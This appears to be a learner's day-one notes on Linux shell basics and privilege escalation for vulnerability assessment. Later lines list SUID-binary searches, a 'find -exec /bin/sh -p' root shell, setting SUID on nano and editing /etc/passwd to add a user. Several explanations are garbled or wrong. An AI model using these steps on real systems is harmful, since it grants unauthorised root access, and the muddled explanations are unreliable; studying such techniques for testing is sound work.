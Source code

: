# vapt-notes
day-1

echo $shell
cat/etc/shells=all shell show
echo $0= current shell
man ch
chsh
env=found total enviroment variable
$=to store data 
path=123 (for making whole machine blank locally)
echo $path = show all path
chmod(permission
sudo u+x ls
sudo rm -rl ls
find / -user root -perm /4000 2>/dev/null
find . -exec /bin/sh -p \; -quit
(openssl)passwd 1234
sudo chmod +s /usr/bin/nano
cat /etc/passwd
nano etc/passwd(using editor for creating new usr)
